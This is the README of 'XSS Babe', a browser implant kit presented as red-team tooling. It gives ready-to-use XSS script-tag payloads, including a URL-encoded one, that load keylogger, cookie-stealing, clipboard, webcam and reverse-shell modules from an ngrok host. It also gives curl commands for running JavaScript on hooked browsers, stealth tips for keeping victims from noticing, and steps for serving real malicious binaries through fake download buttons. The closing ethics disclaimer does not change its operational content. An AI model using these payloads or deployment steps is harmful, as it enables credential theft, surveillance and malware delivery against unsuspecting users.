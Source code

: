 # XSS-BABE
XSS BABE browser based implant system xo
# XSS Babe – by ekoms savior

**XSS Babe** is a browser-based red team implant system built entirely in JavaScript and Python. It is designed for ethical cybersecurity research, browser exploitation simulation, and educational purposes. XSS Babe dynamically loads multiple payload modules into a victim's browser using a single script tag.

This tool is ideal for understanding the power of XSS-based post-exploitation, teaching students browser abuse tactics, and building real-time control panels for red team operations.

---

## Features

- Keylogger with live keystroke logging
- JavaScript-based reverse shell command execution
- Screenshot capture using HTML2Canvas
- Fingerprinting (user-agent, screen resolution, timezone)
- Browser recon and port scanning
- Clipboard capture
- Webcam access prompt
- Browser history profiling
- Password bait module with fake login form
- Download button that serves real payloads
- Cross-tab messaging to capture user activity across tabs
- Dynamic auto-loader that pulls all modules from the server
- Optional Discord webhook alerts for real-time victim beacons
- Dashboard interface for viewing logs

---

## Prerequisites

- Python 3
- Pip (`pip3`)
- Ngrok account (free) and binary installed: https://ngrok.com/download
- A basic understanding of using the terminal

---

## Installation Instructions

1. **Clone the repository**
   ```bash
   git clone https://github.com/ekomsSavior/xss_babe.git
   cd xss_babe
   ```

2. **Run the setup script**
   This installs dependencies, sets up folders, and starts the Flask server.
   ```bash
   chmod +x setup_repo.sh
   ./setup_repo.sh
   ```

3. **Start Ngrok**
   You’ll use this to expose your local Flask server to the public:
   ```bash
   ngrok http 5000
   ```

4. **Copy your Ngrok domain**
   Ngrok will give you a domain like:
   ```
   https://abc123.ngrok.io
   ```

   Use this domain in all injected payloads and external links.

---

## How to Use the Payload

Once Ngrok is running and you have your public domain:

1. Inject this payload into a vulnerable XSS point:
   ```html
   <script src="https://abc123.ngrok.io/static/x.js"></script>
   ```

2. If you need it URL-encoded:
   ```
   %3Cscript%20src%3D%22https%3A%2F%2Fabc123.ngrok.io%2Fstatic%2Fx.js%22%3E%3C%2Fscript%3E
   ```

This will dynamically load all modules into the victim’s browser, including keylogger, reverse shell, recon, and more.

---

## Viewing Logs and Interacting with Victims

### Live Dashboard

Visit your dashboard from your browser to see logs in real time:
```
https://abc123.ngrok.io/
```

### Command Execution

Send JavaScript to all infected browsers:
```bash
curl -X POST https://abc123.ngrok.io/cmd -d "alert('This is a test')"
```

Example of something stealthier:
```bash
curl -X POST https://abc123.ngrok.io/cmd -d "document.body.style.background='black'"
```

The shell module fetches commands every 2 seconds and executes them silently.

---

## Maintaining Browser Access

Once a victim is hooked:

- Do not spam alert boxes — this creates suspicion
- Use the `shell.js` module to run background JS tasks
- Use `password_bait.js` to simulate login prompts during inactivity
- Use `tab_messenger.js` to track movement between tabs
- Avoid reloading the browser tab — that will clear JS execution
- Track screenshots, clipboard, keystrokes, and tabs in real-time
- Use Discord webhook alerts to notify you when a browser is hooked

---

## Using Real Payloads

XSS Babe delivers **real payloads**. You may place the following in your `/payloads` folder:

- `reverse_shell.zip` – zipped payload
- `chrome_patch.exe` – real malicious binary for simulation
- `malware_scan_tool.apk` – Android APK for testing on phones
- `password_list.txt` – used in bait or as decoy

In `fake_download.js`, change the download URL to your real payload:
```js
window.location = "/payloads/reverse_shell.zip";
```

Use only in controlled environments and with full authorization.

---

## Maintaining XSS Babe

Tips and tricks for best results:

- Restart `server.py` after editing Python or JS files
- Add or remove modules by editing `static/x.js`
- Log files are stored in `logs/victims.txt`
- Add your real payloads to the `/payloads` directory
- Customize `dashboard.html` to match your engagement branding
- Keep `.gitignore` in place to avoid pushing payloads or logs to GitHub
- Check browser CSP headers — some sites block external scripts
- Use Ngrok TLS (`https://`) to avoid mixed content blocking

---

## Directory Structure

```
xss_babe/
├── server.py
├── setup_repo.sh
├── .gitignore
├── logs/
│   └── victims.txt
├── payloads/
│   ├── reverse_shell.zip
│   ├── chrome_patch.exe
│   ├── password_list.txt
│   └── malware_scan_tool.apk
├── static/
│   ├── x.js
│   ├── keylogger.js
│   ├── shell.js
│   ├── auto_cookie_steal.js
│   ├── webcam.js
│   ├── clipboard.js
│   ├── fingerprint.js
│   ├── screenshot.js
│   ├── recon.js
│   ├── history.js
│   ├── password_bait.js
│   ├── fake_download.js
│   └── tab_messenger.js
├── templates/
│   └── dashboard.html
```

---

## Ethical Statement

XSS Babe is an offensive security research tool.

It is intended only for use in:
- Your own labs
- Authorized red team engagements
- Security training environments

Never deploy XSS Babe on a live system without explicit written permission. Misuse of this tool may be illegal.

---

## About

Built by **ekoms savior**, part of the **Team EVA** and **JeanGrey** ecosystem.  
XSS Babe is here to teach, empower, and arm defenders and ethical hackers with knowledge of how browsers can be abused.  

If you find bugs, want to contribute, or need help — open a GitHub issue or fork and build your own version of XSS Babe.

**For research. For education. For Trinity.**
